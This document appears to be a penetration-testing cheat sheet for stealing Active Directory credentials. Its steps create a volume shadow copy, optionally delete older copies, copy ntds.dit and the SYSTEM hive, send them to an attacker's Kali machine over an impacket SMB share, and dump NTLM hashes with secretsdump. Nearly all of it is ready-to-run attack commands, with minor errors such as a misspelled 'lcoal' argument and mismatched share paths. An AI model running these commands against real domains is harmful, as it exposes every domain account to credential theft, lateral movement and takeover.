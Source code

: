 the `ntds.dit` file is the Active Directory (AD) database that stores information about domain objects, including user accounts, passwords (in NTLM hash format) , groups and group membership. Extracting and cracking the NTDS.DIT file allows you to obtain domain credentials, which can be used for lateral movement and privilege escalation

---

### NTDS.DIT file location

```cmd
%SystemRoot%\NTDS\ntds.dit
```

OR

```cmd
C:\Windows\NTDS\ntds.dit
```

---

### Step 1: Create a Volume Shadow Copy

1.  List existing shadow copies

```cmd
vssadmin List Shadows
```

2.  Delete the oldest shadow copy(if needed)

```cmd
vssadmin Delete Shadows /For=C:\oldest
```

3.  Create a new shadow copy

```cmd
vssadmin create shadow /for=C:
```

</br>


### Step 2: Copy the NTDS.DIT and SYSTEM Files

```cmd
mkdir ntds
```

```cmd
copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds\ntds.dit
```

```cmd
copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy1\windows\system32\config\system c:\ntds\system
```

Alternatively, save the SYSTEM registry hive directly

```cmd
reg save hklm\system c:\ntds\system
```


</br>


### Step 3: Transfer Files to Kali Linux

1.  Start the SMB Server

```bash
impacket-smbserver -smb2support -user user -password 12345 share /opt/share
```

2.  Copy files to the SMB server

```bash
copy ntds.dit \\192.168.29.218\Public\
```

</br>

### Step 4: Extract Password Hashes from NTDS.DIT

```bash
impacket-secretsdump -system system -ntds ntds.dit lcoal
```

```bash
impacket-secretsdump -system system -ntds ntds.dit -hashes lmhashes:nthash -outfile ntlm-extract local
```